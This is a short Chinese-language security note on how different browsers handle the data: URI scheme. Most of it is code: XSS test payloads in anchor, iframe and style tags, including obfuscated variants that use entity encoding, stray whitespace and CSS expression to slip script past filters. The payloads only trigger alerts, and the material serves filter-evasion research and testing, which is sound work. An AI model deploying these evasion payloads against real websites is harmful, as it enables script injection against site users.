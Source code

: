 ```
<a href="data:text/html;charset=utf-8;base64, PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+Og=="> click</a>

```

上面代码在Firefox和Opera中可以弹出当前域，Chrome与Safari可以弹，但是继承不到a标签所在的域，弹出为空，IE不能执行。

Firefox中data:协议默认MIME类型为text/html，即使你定义了一个他根本不知道的类型，他也会把它当作text/html类型：

```
<iframe src="data:µ,<script>alert(1)</script>"> </iframe>
<iframe src="data:&#ffff;,<script>alert(2)</script>"></iframe>

```

利用之前总结的结论，最终可以写出下面可让Firefox执行的代码：

```
<iframe/
\/src="data:µ,%3cscript%3ealert(document.dom&#x25;61in+[])%3c/script%3e"> </iframe>

```

并且火狐中会忽略data:协议中的所有空白字符：

```
<iframe src="data:.&#x2c &#x25;
3
cscri pt%
3 e alert(1)
%3c /s &#x43 RIP t>">

```

最终可以混淆成这样：

```
<iframe src="d&#097t&#x0061:. &#x2c &#x25; 3
c s cri &#x00D; pt %
3 e al\u0065rt(1)
%3c /s &#x43 RI &#x009 P t>"
data:%,<b> < s &#10 c r i p t>alert(1) < /s &#10 c r i p t>

```

之前提到的标签，在IE中data:协议都不能执行javascript，但是在style标签里，可以通过@import命令插入data:执行javascript：

```
<style>
@import "data:,*%7bx:expression(write(1))%7D";
</style>
<style>
@imp\ ort"data:,*%7b- = \a %65x\pr\65 ssion(write(2))%7d"; </style>
<style>
<link rel="Stylesheet" href="data:,*%7bx:expression(write(3))%7d">

```
